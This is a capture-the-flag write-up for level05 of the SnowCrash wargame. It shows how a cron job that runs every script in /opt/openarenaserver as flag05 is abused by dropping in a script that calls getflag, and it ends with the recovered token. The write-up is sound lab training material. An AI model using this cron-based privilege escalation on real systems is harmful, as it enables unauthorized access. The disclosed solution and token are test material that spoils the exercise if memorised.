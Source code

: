 # level05

First we tried to find all the files owned by flag05 : find / -user flag05 2> /dev/null
this command gave us : 
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
And with find / -iname level05 2> /dev/null
/var/mail/level05

Among other files but this last one is very interesting cause it's a cron file that contains:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

When we cat /usr/sbin/openarenaserver
We get : 

```
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

This script just execute all scripts in /opt/openarenaserver and erase them right after.
So we created in this directory a little bash script who does this: 

```
#!/bin/bash

getflag > /var/tmp/test.txt
```

```
/*********************************************************\

level05@SnowCrash:~$ cat /var/tmp/test.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc

\*********************************************************/
```